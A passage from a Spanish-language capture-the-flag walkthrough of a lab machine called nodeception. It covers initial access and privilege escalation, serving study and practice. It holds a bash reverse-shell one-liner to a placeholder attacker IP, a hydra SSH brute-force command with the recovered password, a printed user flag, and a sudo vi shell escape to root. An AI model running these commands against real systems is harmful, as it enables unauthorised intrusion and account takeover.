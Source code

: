 ```bash
# Reverse shell o acceso inicial
bash -c 'exec bash -i &>/dev/tcp/IP_Atacante/443 <&1'
```

---
## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Enumeracion Users
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
thl:x:1000:1000:THL:/home/thl:/bin/bash
```
### Explotacion de Privilegios

###### Usuario `[ thl ]`:
Flag del usuario:
```bash
cat user.txt

THL_wdYkVpXlqNaEUhRJfzbtHm
```

Listando los permisos para este usuarios
```bash
sudo -l

User thl may run the following commands on nodeception:
    (ALL) NOPASSWD: /usr/bin/vi
    (ALL : ALL) ALL
```

Ahora si intentamos ejecutarlo para ganar acceso como **root**
```bash
sudo -u root /usr/bin/vi -c ':!/bin/sh' /dev/null
[sudo] password for thl: root
Sorry, try again
```

Necesitamos su contrasena para poder ganar acceso como **root**, Pensando que no podemos transferrir por **ssh** ya que no sabemos la password, 
Tenemos otra alternativa, que es realizar fuerza bruta al usuario por **ssh** ya que esta expuesto:
```bash
hydra -l thl -P password.txt -f -t 4 ssh://192.168.100.17
```

Tenemos su password:
```bash
[22][ssh] host: 192.168.100.17   login: thl   password: basketball
```

Asi que nos aprovechamos de esto para ganar acceso como **root**
```bash
# Comando para escalar al usuario: ( root )
sudo -u root /usr/bin/vi -c ':!/bin/sh' /dev/null
[sudo] password for thl: basketball
```

---